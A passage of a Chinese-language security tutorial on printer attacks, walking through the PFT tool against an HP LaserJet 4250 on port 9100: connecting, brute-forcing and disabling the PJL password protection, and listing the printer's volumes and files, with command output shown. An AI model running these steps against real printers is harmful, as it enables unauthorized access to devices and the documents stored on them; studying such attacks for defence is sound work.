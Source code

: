 [https://www.secpulse.com/archives/33663.html](https://www.secpulse.com/archives/33663.html)

## PFT工具

根据文章前面部分，也大概知道了打印机攻击是基于打印机语言命令，如输入PJL命令造成相关，需要掌握PJL命令，输入PJL命令比较麻烦，这里有一个强大的打印机框架工具PFT， 而使用PFT工具可以无需掌握PJL命令，每一个参数已内置打印机语言，只需要调用对应参数来利用，配合help查看。

使用教程：

### 1.PFT连接到打印机

```
pft> server 192.168.15.200
Server set to 192.168.15.200
pft> port 9100
Port set to 9100
pft> connect
Connected to 192.168.15.200:9100
Device: hp LaserJet 4250
```

### 2.PFT清除PJL程序保护

清除成功之后，也能登录web控制台页面。

```
pft> env bruteforce
try 30
INFO: force_recv_clear() timed out for 270bytes (10 sec)
Password disabled successfully
```

### 3.查看硬盘文件

一般高级的打印机会有硬盘，如下命令查看有哪些盘符。

```
pft> volumes
Volume       Size       Free        Location      Label     Status
0:   12619776   11786240             RAM          ? READ-WRITE
```

### 4.ls查看文件

```
pft> ls
0:\
.                             -          d
..                            -          d
PostScript                    -          d
PJL                           -          d
saveDevice                    -          d
webServer                     -          d
```
